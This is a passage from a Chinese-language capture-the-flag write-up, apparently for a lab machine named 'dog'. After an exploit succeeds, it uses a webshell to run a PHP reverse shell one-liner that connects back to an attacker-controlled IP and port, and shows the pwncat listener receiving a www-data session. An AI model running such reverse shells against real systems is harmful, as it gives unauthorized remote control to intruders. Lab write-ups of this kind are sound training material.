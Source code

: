 尝试进行利用

![img](img/image_20250318-151847.png)

利用成功，考虑反弹 shell

## 反弹 shell

使用 webshell 执行以下命令

```bash
php -r '$sock=fsockopen("10.10.16.31",9999);exec("bash <&3 >&3 2>&3");'
```

成功收到回连的会话

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[15:19:44] Welcome to pwncat 🐈!
[15:21:04] received connection from 10.10.11.58:56674
[15:21:07] 10.10.11.58:56674: registered new host w/ db
(local) pwncat$ back
(remote) www-data@dog:/var/www/html/modules/shell$ whoami
www-data
```

## 现有凭据转移至 johncusack

发现正常权限用户两个
